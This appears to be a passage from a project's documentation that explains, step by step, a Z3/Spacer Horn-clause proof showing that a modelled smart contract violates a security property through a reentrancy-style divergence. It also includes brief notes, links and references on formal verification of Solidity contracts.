<code>@x3082</code> is a proof of <code>Ext([1], 2, [1], 2)</code> obtained by the resolution method applied to <code>@x3083</code>.  The operator <code>(_ hyper-res ...)</code> is taking several arguments.  The first one is an already existing proof, and the last one is the desired conclusion obtained by applying resolution to the given proof.  Further arguments come inbetween, when there are additional proofs to supply for resolution.

<code>$x953</code> is a Horn clause, as all the other formulas are, where its body is a conjunction defined as <code>$x951</code> and the head is <code>Ext(H, I, G, F)</code>, which looks as follows, omitting universal quantifier over A, B, ..., H, and I.
```
 (Ext(H, I, A, C)
& Ext(A, D, E, F)
& not (select A B = 0)
& D = C + 3 * select A B
& G = store E B 0
& select A B <= C) => Ext(H, I, G, F)
```
Here, <code><=</code> stands for the arithmetical less than or equal to, and <code>=></code> stands for the logical implication.

<code>@x2953</code> is a proof of <code>Ext([1], 2, [0], 1)</code>.  It is obtained by resolution applied to four arguments.  The first one, <code>(asserted $x953)</code> is a proof of the formula <code>$x953</code> due to assertions.  The solver uses assertions concerning Q_alpha, Q_1, Q_2, Q_3, Q_omega, T, and Ext to carry it out.  The last argument is <code>Ext([1], 2, [0], 1)</code> which is the conclusion of this proof <code>@x2953</code>.  In order to obtain this conclusion, the solver also uses the second and the third arguments which are proofs of the non-trivial conjuncts of the body of the formula <code>$x953</code>, namely, <code>Ext(H, I, A, C)</code> and <code>Ext(A, D, E, F)</code>.  The first one is a direct use of <code>@x3082</code>, and we now see <code>Ext(H, I, A, C)</code> is <code>Ext([1], 2, [1], 2)</code>.  On the other hand, <code>((_ hyper-res 0 0) @x3083 (Ext ?x2347 (_ bv1 2) ?x2347 (_ bv1 2)))</code> has the conclusion <code>Ext([1], 1, [1], 1)</code> which comes by a simple instantiation of <code>@x3083</code> due to resolution.

Due to the arguments so far, we have seen both <code>Ext([1], 2, [1], 2)</code> and <code>Ext([1], 2, [0], 1)</code> are proven.  From the state <code>([1], 2)</code> there are two distinct external behaviors, where one goes to the identical state <code>([1], 2)</code> and the other goes to <code>([0], 1)</code>.  It is indeed the cause of the vulnerability.

<code>$x999</code> is a formula, which is a universally quantified Horn clause.
The kernel of the quantifier is of the form <code>$x997 => (query!0 A D B C L K 0 0 H G)</code>.

<code>$x997</code> is the body of the Horn clause <code>$x999</code>.
```
  Ext(A, I, J, K)
& Ext(A, E, F, G)
& not (select A B = 0)
& (E = D + 3 * (select A B))
& (I = D + 3 * (select A B))
& (H = store F B 0)
& (L = store J B 0)
& (not (L = H) | not (K = G))
& (select A B <= D)
```
Now we come to the final steps of the whole proof, which derives by modus ponens <code>mp</code> falsum from the proof of <code>$x2931</code> and the proof of its negation, ie. <code>$x2931 => false</code>.  The latter one is indeed corresponding to the double negated goal formula of ours in the original SMT script.
The former proof is due to resolution.  The first argument is a proof of <code>$x999</code>.  Recall that <code>query!0</code> is a boolean valued function, and this boolean value is meant for the negation of the security property.  In order to prove it, it suffices to prove the conjunction formula inside the kernel of the security property formula.
```
  Jar b tb
& T b tb s v b^ tb^ r^
& T b tb s v b_^ tb_^ r_^
& r^ = 0
& r_^ = 0
& not ((b^ = b_^) & (tb^ = tb_^))
```
Then, to prove <code>query!0 A D B C L K 0 0 H G</code>, the head of the Horn clause <code>$x999</code>, it suffices to prove the corresponding instantiation of the above conjunction, that is,
```
  Jar A D
& T A D B C L K 0
& T A D B C H G 0
& 0 = 0
& 0 = 0
& not ((L = H) & (K = G))
```
which is straightforwardly implied from the conjunction formula <code>$x997</code> by means of the assertions concerning Jar, T, Q_1, Q_2, Q_3, and Q_omega in our model.  Notice that the premises concerning <code>Ext</code> is necessary as the body of the clause concerning Q_3 involves it.  By resolution, the body of the Horn clause <code>$x999</code> is all proven, thanks to the additionally supplied proofs <code>@x2953</code> and <code>@x3082</code>, which respectively claim <code>Ext([1], 2, [0], 1)</code> and <code>Ext([1], 2, [1], 2)</code>, and it gives a proof of <code>$x2931</code>, that is <code>query!0([1], 3, unit, 0, [0], 1, 0, 0, [0], 2)</code>.
It means that there are two diverging transactions as mentioned at the beginning of this section, and moreover it contradits the asserted security property.

### Implementation

TODO: automatically generate a model and a security property for a given source code, so that a theorem prover practices formal verification.

### Notes

- getting proof trees from Spacer (https://github.com/Z3Prover/z3/issues/4863)
- proof rules documented (https://github.com/Z3Prover/z3/blob/master/src/api/z3_api.h#L765)

<!-- 1. There is a function, which not only allows reentrancy but also makes a money transfer to some address which may be a smart contract created by somebody.  (May be viewed as a special case of the 2. below.)
2. In this function, preconditions to the money transfer may be satisfied in a recursive call.
3. After carrying out the money transfer, it may complete all the recursive function calls without a revert. -->

<!-- variables used to form a condition (maybe no such variable) to decide whether it should send money or not aren't get changed before the line of money transfer. -->

### External links

- https://www.alchemy.com/overviews/reentrancy-attack-solidity
- https://hackernoon.com/hack-solidity-reentrancy-attack

### References

<a id="1">[1]</a>
Leonardo Alt, Martin Blicha, Antti E. J. Hyvärinen, Natasha Sharygina:
SolCMC: Solidity Compiler's Model Checker. CAV (1) 2022: 325-338

<a id="2">[2]</a>
Matteo Marescotti, Rodrigo Otoni, Leonardo Alt, Patrick Eugster, Antti E. J. Hyvärinen, Natasha Sharygina:
Accurate Smart Contract Verification Through Direct Modelling. ISoLA (3) 2020: 178-194
